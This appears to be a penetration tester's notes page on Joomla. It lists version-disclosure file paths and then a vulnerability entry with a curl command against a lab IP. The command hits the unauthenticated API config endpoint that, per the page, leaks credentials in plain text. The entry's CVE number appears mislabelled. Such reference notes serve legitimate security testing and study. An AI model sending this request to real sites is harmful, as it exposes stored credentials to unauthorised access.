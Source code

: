 ```yaml
---
icon: folder-grid
description: Content Management System
---
```


# Joomla

{% hint style="info" %}
### <mark style="color:purple;">Documentation</mark>
{% endhint %}

{% embed url="https://docs.joomla.org/" %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

### <mark style="color:purple;">Find the Version</mark>:

* <mark style="color:orange;">**`1.0 to 1.5`**</mark> <mark style="color:purple;">**->**</mark>**&#x20;**<mark style="color:red;">**`includes/version.php`**</mark>&#x20;
* <mark style="color:orange;">**`1.6 to 3.x`**</mark>**&#x20;**<mark style="color:purple;">**->**</mark>  <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>
* <mark style="color:orange;">**`4.x`**</mark> <mark style="color:purple;">-></mark> <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>

<mark style="color:orange;">**`Recommended`**</mark><mark style="color:purple;">: Use the admin interface or the</mark> <mark style="color:orange;">**`Joomla\CMS\Version`**</mark> <mark style="color:purple;">class programmatically.</mark>

***
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`CVE-2023-23753`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">-</mark> <mark style="color:red;">`4.0.0 to 4.2.7`</mark>

* <mark style="color:purple;">Read about it</mark> [<mark style="color:orange;">**`here`**</mark>](https://vulncheck.com/blog/joomla-for-rce)
* <mark style="color:purple;">Credentials leak in plain text here:</mark>

{% code overflow="wrap" %}
```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```
{% endcode %}
{% endhint %}

